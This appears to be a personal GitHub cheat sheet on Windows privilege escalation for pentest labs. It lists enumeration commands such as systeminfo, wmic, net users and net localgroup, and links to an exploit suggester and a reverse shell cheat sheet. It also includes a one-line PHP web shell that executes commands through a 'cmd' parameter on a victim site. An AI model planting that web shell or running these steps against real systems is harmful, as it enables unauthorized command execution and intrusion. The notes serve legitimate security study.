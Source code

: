 # ariel-shin Windows - Privilege Escalation

## Summary 
* [Tools](#tools)

## MUST RUN: ipconfig/ifconfig && whoami && cat local.txt

## Web Shell for Windows 
- PHP Web Shell
    * Test if PHP works
    ```phpinfo
    <?php phpinfo(); ?>
    ```
    * Command Execution
    ```php webshell
    <?php echo(system($_GET["cmd"])); ?>
    ```
    * Go to http://victimsite.com/test.php?cmd=dir for command execution 

## Process
- systeminfo
	* Gives us system info 

	* Check Hot Fixes
		* No hot fixes - means no hotfixes installed OR we don't have permissions to view hot fixes

	* Check OS Name
		* google: systeminfo "OS" + "NIC(s) installed"
			* example: "Microosft Windows Server 2008 R2 DataCenter" + "NIC(s) installed"
		* check if someone else has posted systeminfo output so we can compare our OS version 

	* Check OS Versions 
		* Indicate the Service Pack -- N/A
		
		```systeminfo
		systeminfo | findstr /B /C:”OS Name” /C:”OS Version”
		```
		* Google Output
- wmic os get osarchitecture || echo %PROCESSOR_ARCHITECTURE%
	* Get architecture
	* x86 = 32 bit machine
	* x64 = 64 bit machine
- Environment Variables
	* Command Prompt
	```env
	set
	```
	* PowerShell
	```
	Get-ChildItem Env: | ft Key,Value
	```
- net users
	* See the users 
- net localgroup Administrator(s)
	* See which users are in the Administrator Group




sc -- tells you what program is running
systeminternals
accesschk.exe


## Automated Tools
* [Windows Exploit Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)

## Cheat Sheets
* [Reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
)

## Links
* [Spreadsheet with Resources](https://docs.google.com/spreadsheets/d/12bT8APhWsL-P8mBtWCYu4MLftwG1cPmIL25AEBtXDno/edit#gid=2075148101)